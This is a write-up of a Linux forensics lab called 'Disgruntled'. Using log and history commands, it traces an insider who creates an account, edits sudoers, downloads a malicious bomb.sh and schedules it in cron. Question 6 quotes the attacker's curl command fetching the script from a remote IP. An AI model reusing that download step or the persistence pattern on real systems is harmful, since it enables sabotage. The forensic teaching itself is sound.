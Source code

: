 # 🛠️ Disgruntled: Linux Forensics Investigation  

I investigated a suspicious incident involving a compromised Linux system. Below are the findings and the investigative process, with placeholders for screenshots to support each step.  

---

## 🖥️ Lab Setup  

- **Client Name:** CyberT  
- **Primary User Account:** cybert  

---

## 🔍 Investigation Questions and Answers  

### 1. What is the full command used to install a package on the machine using elevated privileges?  
**Answer:** `/usr/bin/apt install dokuwiki`  
- **Steps Taken:**  
  - Queried the authorization logs with the command:  
    ```bash
    cat /var/log/auth.log* | grep -i COMMAND | grep -i install
    ```  
  - Reviewed entries for elevated privileges usage and identified the package installation command.  

![Screenshot for Question 1](https://i.imgur.com/zfhSYt1.png)

---

### 2. What was the present working directory (PWD) when the previous command was run?  
**Answer:** `/home/cybert`  
- **Steps Taken:**  
  - Checked the `PWD` value in the same log entry as the installation command.  

![Screenshot for Question 2](https://i.imgur.com/1aLJM5t.png)

---

### 3. Which user was created after the package was installed?  
**Answer:** `it-admin`  
- **Steps Taken:**  
  - Searched the logs for user creation commands:  
    ```bash
    cat /var/log/auth.log* | grep -i COMMAND | grep -i adduser
    ```  
  - Identified the newly created user account.  

![Screenshot for Question 3](https://i.imgur.com/VuBRXyc.png)

---

### 4. When was the sudoers file updated?  
**Answer:** `Dec 28 06:27`  
- **Steps Taken:**  
  - Queried the logs for `visudo` commands with the following:  
    ```bash
    cat /var/log/auth.log* | grep -i visudo
    ```  
  - Correlated timestamps with other malicious actions. This will let you see the changes done to the sudoers file. 

![Screenshot for Question 4](https://i.imgur.com/zmBc7W5.png)

---

### 5. What is the name of the script file that was opened using the "vi" text editor?  
**Answer:** `bomb.sh`  
- **Steps Taken:**  
  - Investigated logs for instances of the `vi` command:  
    ```bash
    cat /var/log/auth.log* | grep -i vi
    ```  
  - Found a suspicious file edited with `vi`.  

![Screenshot for Question 5](https://i.imgur.com/1m7C4zL.png)

---

### 6. What is the command used to create the file `bomb.sh`?  
**Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`  
- **Steps Taken:**  
  - Reviewed the `.bash_history` of the created user:  
    ```bash
    cat /home/it-admin/.bash_history
    ```  
  - Located the command used to download the malicious script.  

![Screenshot for Question 6](https://i.imgur.com/UDm0DHw.png)

---

### 7. What is the full path of the file after it was renamed and moved to a different directory?  
**Answer:** `/bin/os-update.sh`  
- **Steps Taken:**  
  - Checked the `.viminfo` file for renaming operations:  
    ```bash
    cat /home/it-admin/.viminfo | grep saveas
    ```  
  - Found the new path and name of the script.  

![Screenshot for Question 7](https://i.imgur.com/AJI3R0j.png)

---

### 8. When was the file `/bin/os-update.sh` last modified?  
**Answer:** `Dec 28 06:29`  
- **Steps Taken:**  
  - Queried the directory metadata for file modification timestamps:  
    ```bash
    ls -al /bin | grep os-update
    ```  

![Screenshot for Question 8](https://i.imgur.com/SkmKoPy.png)

---

### 9. What is the name of the file that will get created when `/bin/os-update.sh` executes?  
**Answer:** `goodbye.txt`  
- **Steps Taken:**  
  - Reviewed the contents of the script using:  
    ```bash
    cat /bin/os-update.sh
    ```  
  - Found that the script outputs `goodbye.txt`.  

![Screenshot for Question 9](https://i.imgur.com/vqIrJkM.png)

---

### 10. At what time will the malicious file trigger?  
**Answer:** `08:00 AM`  
- **Steps Taken:**  
  - Checked the system’s cron jobs with the following command:  
    ```bash
    cat /etc/crontab
    ```  
  - Noted the scheduled execution time for the malicious script.  

![Screenshot for Question 10](https://i.imgur.com/JYrY229.png)

---

## 🛠️ Tools Used  

- **Linux Command Line:** For log parsing and forensic analysis.  
- **Key Commands:** `grep`, `cat`, `ls`, `.bash_history`, `.viminfo`.  

---

## 🧠 Key Takeaways  

- Authentication logs are critical for tracking privileged actions.  
- Understanding file operations and cron jobs is vital in identifying malicious activity.  
- Linux forensic investigations require a mix of log analysis and command history inspection.


